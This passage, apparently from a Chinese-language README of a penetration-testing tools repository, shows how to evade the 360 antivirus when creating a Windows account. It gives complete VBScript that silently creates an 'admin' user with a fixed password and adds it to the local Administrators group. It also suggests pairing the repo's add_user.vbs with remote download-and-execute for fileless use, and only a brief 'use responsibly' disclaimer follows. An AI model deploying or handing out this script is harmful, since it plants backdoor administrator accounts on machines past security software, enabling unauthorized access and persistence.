 正常执行命令添加用户会被360拦截如图：

![](./img/69.png)

使用vbs添加用户绕过360，成功添加:

![](./img/70.png)

项目`tools`目录也有添加add_user.vbs脚本，可以配合远程下载执行无文件落地执行。

源码如下:

```vbscript

set wsnetwork=CreateObject("WSCRIPT.NETWORK")
os="WinNT://"&wsnetwork.ComputerName
Set ob=GetObject(os)
Set oe=GetObject(os&"/Administrators,group")
Set od=ob.Create("user","admin")
od.SetPassword "123456"
od.SetInfo
Set of=GetObject(os&"/admin",user)
oe.add os&"/admin"
```

注意密码复杂性，我项目里面的脚本密码是`Love@123456`

⚠️请合理使用，资源来自：https://mp.weixin.qq.com/s/yWTA8Q2GPwOMQBHph5srJQ


